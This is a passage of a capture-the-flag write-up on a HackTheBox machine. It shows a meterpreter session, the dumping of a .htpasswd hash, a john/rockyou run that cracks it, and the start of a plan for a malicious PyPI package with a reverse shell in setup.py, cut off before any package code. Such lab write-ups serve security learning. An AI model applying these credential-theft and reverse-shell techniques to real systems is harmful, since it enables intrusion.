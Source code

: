     :::text
    meterpreter > getuid
    Server username: www-data (33)

# User

## John

We browse the file system and found some `pypi` sub domain and a `.htpasswd` file
containing an encrypted password.

    :::text
    meterpreter > ls
    Listing: /var/www/pypi.sneakycorp.htb
    =====================================

    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100644/rw-r--r--  43    fil   2020-05-15 14:29:53 -0400  .htpasswd
    40770/rwxrwx---   4096  dir   2020-08-07 07:12:52 -0400  packages
    40755/rwxr-xr-x   4096  dir   2020-05-14 18:25:43 -0400  venv

    meterpreter > cat .htpasswd
    pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

We run `john` and the `rockyou` dictionary on it.

    :::text
    $ john hash -w=~/tools/password_lists/rockyou.txt --fork=8
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
    Use the "--format=md5crypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    4 0g 0:00:00:05 5.58% (ETA: 14:16:12) 0g/s 19731p/s 19731c/s 19731C/s jeanix..jbhunt
    soufianeelhaoui  (pypi)

## PyPi

This new credentials set allows us to access the [PyPi](https://pypi.org/)
server located at
[http://pypi.sneakycorp.htb:8080/](http://pypi.sneakycorp.htb:8080/).

I had never made a Python package, neither use that in order to get a reverse
shell. A read a few [article about make and uploading package to pypi](https://medium.com/@joel.barmettler/how-to-upload-your-python-package-to-pypi-65edc5fe9c56).

We then construct a specific package with a reverse shell code in `setup.py`.
The structure of the package is the following.
